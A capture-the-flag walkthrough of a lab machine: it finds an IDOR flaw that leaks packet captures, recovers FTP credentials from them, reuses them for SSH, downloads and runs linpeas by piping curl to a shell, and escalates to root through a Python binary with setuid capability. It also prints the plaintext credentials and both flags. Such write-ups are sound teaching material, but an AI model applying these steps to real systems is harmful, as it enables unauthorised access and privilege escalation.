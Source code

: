 ```yaml
---
sticker: emoji//1f9e2
---
```


# ENUMERATION
---

## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 21   | ftp     |
| 22   | ssh     |
| 80   | http    |

We have three open ports, let's begin with reconnaissance.

# RECONNAISSANCE
---
![](Pasted%20image%2020250107160531.png)

This is the standard page, we have `Dashboard`, `Security Snapshot` `Ip Config` `Network Status`, let's check each of those:

![](Pasted%20image%2020250107160748.png)

Security snapshot takes us to another URL, if we click download, we are able to get a `7.pcap` file, if we use wireshark to analyze that, it's empty, so, let's keep searching in order to find anything useful:

![](Pasted%20image%2020250107161541.png)

We have an Ip section, nothing rare, let's keep searching:

![](Pasted%20image%2020250107161617.png)

Also a netstat section, nothing seems off too, 

```ad-hint

That's when I realized that when we enter the security snapshot section, we get redirected to a `/data/number` URL, so, I thought that if an IDOR vulnerability is there on the website, we may be able to read another scans, I used burp and it was indeed true, that's when I got that scan `5` had the following:

![](Pasted%20image%2020250107162125.png)


Now we have packets to read! Let's download the file and analyze it with wireshark:

![](Pasted%20image%2020250107162221.png)

```


# EXPLOITATION
---


Nothing useful came from this. That's when I kept searching and found the `/data/0` file, let's analyze it:

![](Pasted%20image%2020250107163040.png)

We found something useful!

A ftp string, let's follow it:

![](Pasted%20image%2020250107163123.png)

Nice, we got some credentials, let's log into `nathan` user:

```ad-note
`nathan`: `Buck3tH4TF0RM3!`
```

![](Pasted%20image%2020250107163428.png)

We got access, we can see a `user.txt` flag, let's get it and read it:

![](Pasted%20image%2020250107163514.png)

User flag is `f763e899654614af8d5f2e6a886516a0`

I thought than since that password works for ftp, some users tend to have the same password in different services, so, let's try to log into ssh with those credentials:

![](Pasted%20image%2020250107163700.png)

I was right, let's proceed with privilege escalation.

# PRIVILEGE ESCALATION
---

We can not use sudo on this machine with nathan user:

![](Pasted%20image%2020250107163815.png)


Let's use linpeas in this machine and check what it got for us:

![](Pasted%20image%2020250107164042.png)

We can use curl in the machine, so, we can perform: `curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh`

![](Pasted%20image%2020250107164142.png)

Nice, when linpeas finishes, we can see the following:

![](Pasted%20image%2020250107164513.png)

This is the binary we'll use in order to perform PE, I asked chatgpt and it said we must do the following steps:

```ad-summary
1. `/usr/bin/python3.8`
2. `import os`
3. `os.setuid(0)` (As this is root ID)
4. `os.system("bash")`

#### PoC
----
![](Pasted%20image%2020250107165038.png)

We can also see this procedure in Gtfobins:

![](Pasted%20image%2020250107165210.png)

```

Just like that, CTF is done, let's read root flag and submit it:

![](Pasted%20image%2020250107165111.png)

Root: `bb58eed72cb4312008e7262c59c17d7b`

Gg!

